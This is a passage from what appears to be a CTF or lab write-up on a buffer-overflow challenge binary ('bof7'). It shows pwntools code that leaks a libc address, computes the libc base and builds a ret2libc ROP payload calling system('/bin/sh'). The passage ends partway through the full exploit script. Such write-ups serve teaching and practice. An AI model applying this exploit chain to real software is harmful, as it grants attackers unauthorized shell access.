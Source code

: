 ![alt text](/images/image-10-2.png)

```
libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("Leak libc: " + hex(libc_leak))
libc.address = libc_leak - 0x87bd0
log.info("Libc base: " + hex(libc.address))
```

To find the libc base, we use the leaked address subtract the base address while debugging to find the offset of `0x87bd0`. So we get libc base:

![alt text](/images/image-11-2.png)

When we get the libc base, we get the address of the `system` function and the string `'/bin/sh'` in libc. Final step, get shell:
```
payload  = b'A' * offset + p64(pop_rdi)
payload += p64( next(libc.search('/bin/sh'))) + p64(libc.sym.system)
sl(payload)
```
We have a complete exploit:
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof7', checksec=False)
libc = exe.libc
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
sln = lambda msg, num: sla(msg, str(num).encode())
sn = lambda msg, num: sa(msg, str(num).encode())

```
